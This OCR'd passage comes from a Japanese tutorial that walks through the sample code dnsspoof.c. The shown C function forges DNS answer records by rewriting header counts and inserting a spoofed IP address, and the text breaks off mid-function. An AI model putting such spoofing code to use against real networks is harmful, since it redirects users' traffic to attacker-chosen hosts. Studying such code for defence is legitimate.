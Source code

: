　サンプルコードの実装では以下のように各フィールドに値を設定します。

----- dnsspoof.c
/* DNSヘッダー再設定 */
dns->ancount = htons(1);
dns->arcount = 0;
dns->nscount = 0;
-----


○4.4.6 IPアドレス書き換え

　回答RRに含まれるIPアドレスを書き換えることにより、スプーフィングの準備
は整います。質問RRと回答RRは可変長であるため、IPアドレスを書き込むメモリ
アドレスを正確に計算する必要があります。
　サンプルコードの実装では、以下のようにして回答RRの書き換えと送信を行い
ました。

----- dnsspoof.c
     1  static int
     2  send_dnsans(struct ip *ip, int spoof, HEADER *dns, QFOOTER *qf, int qnamelen)
     3  {
     4          struct sockaddr_in sin;
     5          struct udphdr *udp;
     6          char *ansptr;                       /* DNS回答書き込みポインタ  */
     7          char *addrptr;                      /* アドレス書き込みポインタ */
     8          int dnspacketsize = 0;
     9          char dnscode[] =
    10                          "\xc0\x0c"         /* ホスト名へのオフセット */
    11                          "\x00\x01"         /* Type A                 */
    12                          "\x00\x01"         /* Class IN               */
    13                          "\x00\x00\x07\x08" /* TTL                    */
    14                          "\x00\x04";        /* Length                 */
    15
    16          udp = (struct udphdr *)((char *)ip + (ip->ip_hl<<2));
    17
    18          memset(&sin, 0, sizeof(struct sockaddr_in));
    19          sin.sin_family = AF_INET;
    20          sin.sin_addr = ip->ip_dst;
    21          sin.sin_port = udp->uh_dport;
    22
    23          /* アドレス書き換え */
    24          if (spoof) {
    25                  dnspacketsize = sizeof(struct udphdr) + sizeof(HEADER) +
    26                                   qnamelen + sizeof(QFOOTER) + sizeof(dnscode) + 4;
    27                  /* DNSヘッダー再設定 */
    28                  dns->ancount = htons(1);
    29                  dns->arcount = 0;
    30                  dns->nscount = 0;
    31
    32                  /* 回答へのポインタ */
    33                  ansptr = (char *)((char *)qf + sizeof(QFOOTER));
    34                  /* アドレスフィールドへのポインタ */
    35                  addrptr = ansptr + sizeof(dnscode);
    36                  /* 回答書き換え */
    37                  memcpy(addrptr - 1, &in_spoofip.s_addr, sizeof(in_spoofip.s_addr));
    38
    39                  /* UDPヘッダー再設定 */
    40                  udp->uh_sum = 0;
    41                  udp->uh_ulen = htons(dnspacketsize);
    42
    43                  ip->ip_len = BSDFIX((ip->ip_hl<<2) + dnspacketsize);
    44
    45          }
    46          /* ip->ip_len を再設定 */
    47          else {